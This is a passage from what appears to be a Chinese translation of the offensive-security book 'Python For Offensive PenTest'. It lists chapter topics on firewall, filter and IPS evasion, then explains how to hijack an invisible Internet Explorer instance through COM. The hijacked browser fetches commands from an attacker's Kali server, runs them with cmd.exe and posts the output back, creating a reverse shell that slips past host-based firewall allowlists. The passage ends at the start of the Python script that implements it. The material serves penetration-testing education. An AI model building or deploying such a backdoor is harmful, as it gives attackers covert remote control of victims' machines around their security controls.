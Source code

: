# 追捕我吧！

在今天的世界里，绕过和劫持软件在互联网上到处都是。然而，明确的使用和执行方式才是让你成为一名优秀的业余黑客的关键。

这可以通过正确选择工具并遵循必要的过程，完美地完成手头的任务来实现。

在本章中，我们将涵盖以下主题，帮助你实现这一目标：

+   绕过基于主机的防火墙

+   劫持 IE

+   绕过拒绝过滤

+   与 SourceForge 互动

+   与 Google Forms 互动

+   绕过僵尸网络过滤

+   利用手工 XOR 加密绕过 IPS

# 绕过基于主机的防火墙

在我们之前的所有章节中，我们假设目标机器上的任何进程都可以在没有任何限制的情况下启动与互联网的连接。现在，在许多企业网络中，他们不再依赖内置的 Windows 防火墙。相反，他们使用高级的基于主机的防火墙来限制哪些进程可以启动与互联网的连接，就像访问控制列表（ACL）一样工作。因此，假设系统管理员只允许一些业务所需的进程访问互联网。例如，假设系统管理员允许 Windows 更新和杀毒软件更新，以及常见的浏览器，如 Chrome、Internet Explorer 和 Firefox。因此，只有这些进程被允许访问互联网，其他任何进程都会被阻止。通过实施这样的策略，我们的后门无法存活，因为它默认不会列入管理员的允许列表。最终，我们无法获得对攻击者机器的 shell。

然而，如果我们找到一种方法，能够利用我们的 Python 脚本某种方式控制**Internet Explorer**（**IE**），然后迫使它在后台连接到我们的 Kali HTTP 服务器并来回传输命令，那么我们就能绕过基于主机的防火墙策略。微软提供了**组件对象模型**（**COM**），以支持进程间通信，并通过编程方式创建对象来控制和自动化多个微软产品，如 Outlook、Internet Explorer、Word 和 Excel。Internet Explorer 是所有 Windows 版本中内置的浏览器；因此，它应该始终可用，并且通常被安全管理员列为白名单中的备份浏览器，以防其他浏览器无法使用。让 Internet Explorer 代替我们发起连接的另一个好处是，如果目标在连接互联网之前使用了内部代理，那么你不必担心知道代理信息，因为 Internet Explorer 会为我们处理这一切。

所以，我们在这里做的是假设主机防火墙只允许某些进程，如杀毒软件、Firefox、Internet Explorer 或 Windows 更新，其他的都不允许。为此，在我们的 Python 脚本中，我们将定义一个 COM 对象来控制 Internet Explorer。然后，我们将让 Internet Explorer 导航到我们位于 Kali 机器上的 HTTP 服务器，并获取需要执行的命令。

一旦我们得到需要执行的命令，我们将启动一个子进程。我们检索命令并传递给 EXE。然后，使用 COM 对象，我们将通过 Python 脚本将其返回并启动`cmd.exe`作为子进程。使用 COM 对象获取的命令结果，我们会将其传递给 Internet Explorer，然后将其发布到我们位于 Kali 机器上的网站。如果你记得，这种技术与我们之前的 HTTP 反向 Shell 非常相似，但这里的关键区别是我们使用 Internet Explorer 作为我们的 Web 客户端，而不是像之前那样使用`requests`库。从主机防火墙的角度来看，最终的结果是，Python 脚本并没有启动任何外部会话，而是 Internet Explorer 启动了会话。

以下链接将提供有关 COM 协议的更多信息：[`claudihome.com/html/LR/WebHelp/Content/VuGen/132800_click_and_script.htm`](http://claudihome.com/html/LR/WebHelp/Content/VuGen/132800_click_and_script.htm)

# 劫持 IE

一如既往，使用 Python 编程将使你的生活更加轻松。现在，要在 Python 中使用 COM，你只需要安装 Python for Windows 或`pywin`库。由于我们在创建之前的键盘记录器时已经安装了这个库，这里就不再详细讲解了。现在，让我们进入编码部分：

```
# Python For Offensive PenTest

# Install Python for Windows pywin32-219.win32-py2.7
# http://sourceforge.net/projects/pywin32/files/pywin32/Build%20219/

# Hijacking IE - Shell Over IE

from win32com.client import Dispatch
from time import sleep
import subprocess

ie = Dispatch("InternetExplorer.Application") # Create browser instance.
ie.Visible = 0 # Make it invisible [ run in background ] (1= invisible)
...
```
